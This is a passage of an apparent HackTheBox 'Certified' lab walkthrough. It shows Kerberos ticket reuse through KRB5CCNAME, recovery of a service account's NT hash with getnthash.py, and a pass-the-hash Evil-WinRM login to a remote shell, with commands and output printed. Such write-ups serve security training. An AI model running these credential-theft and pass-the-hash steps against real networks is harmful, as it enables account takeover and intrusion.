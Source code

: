 Sets the environment variable KRB5CCNAME, which tells Kerberos-based tools to use the ticket from **hhh.ccache** instead of requiring a password.

~~~ bash 
┌──(trit㉿chimp)-[~/HackTheBox/Certified]
└─$  export KRB5CCNAME=hhh.ccache
~~~

Extracts the NTLM hash of the management_svc account using the Kerberos TGT obtained earlier. I used `getnthash.py` you can download [here](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py).


~~~ shell
┌──(trit㉿chimp)-[~/HackTheBox/Certified]
└─$  python getnthash.py -key 07229e48b98f6800f3c17aaef3a49815c7b1fff0881969a3756856366a8a87f6 certified.htb/management_svc

[*] Using TGT from cache
/home/kali/Certified/PKINITtools/getnthash.py:144: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/home/kali/Certified/PKINITtools/getnthash.py:192: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting ticket to self with PAC
Recovered NT Hash
a091c1832bcdd4677c28b5a6a1295584
~~~

## Lateral Movement

I logged in using `Evil-WinRM`.

~~~ shell 
┌──(trit㉿chimp)-[~/HackTheBox/Certified]
└─$ evil-winrm -i certified.htb -u management_svc -H "a091c1832bcdd4677c28b5a6a1295584"
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\management_svc> dir


    Directory: C:\Users\management_svc


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        5/13/2024   9:01 AM                Desktop
d-r---        5/13/2024   9:00 AM                Documents
d-r---        9/15/2018  12:19 AM                Downloads
d-r---        9/15/2018  12:19 AM                Favorites
d-r---        9/15/2018  12:19 AM                Links
d-r---        9/15/2018  12:19 AM                Music
d-r---        9/15/2018  12:19 AM                Pictures
d-----        9/15/2018  12:19 AM                Saved Games
d-r---        9/15/2018  12:19 AM                Videos

~~~